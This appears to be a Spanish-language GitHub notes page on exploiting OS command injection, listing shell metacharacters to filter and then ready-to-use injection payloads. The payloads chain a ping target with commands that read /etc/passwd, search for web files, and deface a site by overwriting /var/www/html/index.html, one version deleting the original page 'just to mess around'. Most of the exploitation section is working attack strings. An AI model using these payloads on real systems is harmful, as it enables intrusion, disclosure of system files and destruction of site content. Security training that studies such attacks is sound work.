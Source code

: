 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

### 💣 `In-Band CMDI: exploitation`

1. 💥 Utilizar `shell metacharacters` como [payload](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/blob/main/12_Fz3r0_CMDI_-_Payloads/Command_Injection_Payloads.md) inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. 💥 **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````

Algo un poco mas complejo como un `defacement` se podría ver algo así:

1. Buscar por algún archivo con la extensión `*.html` / buscar directamente por el `*.index.html` / mapear directorio default para hosting de página. 

````sh
# Option 1
127.0.0.1 ; find / -type f -name "*.html" &

# Option 2
127.0.0.1 ; ls /var/www

````

2. Crear un nuevo `index.html` con el defacement utilizando un `one-liner`, el original se guarda en un backup `.bak`:

````sh
127.0.0.1 ; cp /var/www/html/index.html /var/www/html/index.bak && echo "Hola mundo, soy Fz3r0" > /var/www/html/index.html &

````

- O algo todavía más complejo, esto ya es un código HTML para un buen defacement _(aquí borramos la página original sin guardar backup, solo por chingar)_:

````sh
127.0.0.1 ; rm /var/www/html/index.html && echo '<!DOCTYPE html><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el titulo Fz3r0</h1><h2>Este es el titulo 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html>' > /var/www/html/index.html &

````



## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
